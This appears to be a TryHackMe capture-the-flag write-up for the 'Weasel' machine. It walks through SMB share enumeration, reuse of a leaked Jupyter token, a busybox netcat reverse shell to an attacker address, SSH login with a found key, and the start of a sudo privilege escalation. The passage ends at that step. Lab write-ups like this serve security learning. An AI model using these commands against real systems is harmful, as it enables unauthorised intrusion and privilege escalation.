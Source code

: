 <h3> Weasel TryHackMe </h3>

![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/d75505c1-e2ce-4fb1-b86f-fe0818711009)

Nmap Scan:
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/8e462a6e-01d5-48fc-bc64-c5fe47d96a15)

From the scan we can tell that this is a windows box 

Let's enumerate smb first

Checking the shares available shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/26c7facd-82f4-4d00-8311-461dfd8143db)

Now we can mount the *datasci-team* share
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/444afca1-a3cb-4896-a042-04ad8d917a25)

```
Command: sudo mount -t cifs -o username=guest,password= //10.10.195.131/datasci-team mount
```

After i looked through the smb folders in that share i didn't see anything interesting except this jupyter token
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/5ba4420f-bd7d-455d-b7ee-95cb4e73fdc8)

We can now unmount it
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/5d1dd99e-5400-4c0c-82a5-a108061808f0)

```
Command: sudo umount mount
```

Back to the port 8888 shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/e4664709-f541-4726-897e-fe03b3c6abcd)

This is an instance of jupyter and it's running on port 8888

It requies a token to get logged in

Remember we got a token from the smb so using it here works
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/62df165e-d12d-4d19-9ede-7314f75b361a)

```
Token: 067470c5ddsadc54153ghfjd817d15b5d5f5341e56b0dsad78a
```

To get shell on jupyter is very easy since it usually have a python interactive instance and also a terminal 

But let's go with the terminal option

Click on the *new button* then click the *terminal button*
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/7fc0bd07-3196-4a6d-9bd6-6695bc41e21f)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/4958278f-f2f6-458a-b39c-f48fed665167)

I just got a reverse shell using *busybox* binary
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/43e343d2-1f66-49b3-9fb4-0199593dc0f8)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/64553ac3-75c2-4d97-8338-41d227cb7b19)

```
Command: busybox nc 10.2.42.156 1337 -e /bin/bash
```

From here we see that this is a linux host

But our nmap scan showed that this is a windows box 

So the only thing we can think of is that this is a host running [wsl](https://learn.microsoft.com/en-us/windows/wsl/install)

Looking at the current working directory we can see a ssh key for user *dev-datasci-lowpriv*
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f8c7c1ed-34b8-4272-86bb-c2aa9a8d287b)

We can try login to ssh cause it works 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/3eb644cd-c349-4dac-be61-9fe268d47bf5)

```
Command:-
chmod 600 id_rsa
ssh -i id_rsa dev-datasci-lowpriv@10.10.195.131
```

Let's see if we can root the wsl host because if that works we can just mount the windows host and access the administrator directory 

Also i'm taking this path cause i suck at privesc in windows 😄

Checking *sudo* permission on the wsl shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/843301ef-3f6b-44ac-afb8-2dbe2cb16308)

Interesting we can run */home/dev-datasci/.local/bin/jupyter* as root that looks to easy already 🙂

But trying it doesn't work
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/e06c24fe-f20f-4532-99bf-4c1f25d3d0c8)

We get *command not found* and that is because the binary isn't in that specific path smh

I used *find* command then got the binary
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/0f7909af-3e5e-4cac-b62f-5b56d05be07b)

```
Command: find / -type f -name jupyter 2>/dev/null
```

Now we can just copy the binary to that path since we have write access *cause /home/dev-datasci/.local* is owned by us
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/761d9d35-f591-4dac-8aed-f3cca7cfc6db)

```
Command: cp /home/dev-datasci/anaconda3/bin/jupyter /home/dev-datasci/.local/bin/jupyter
```
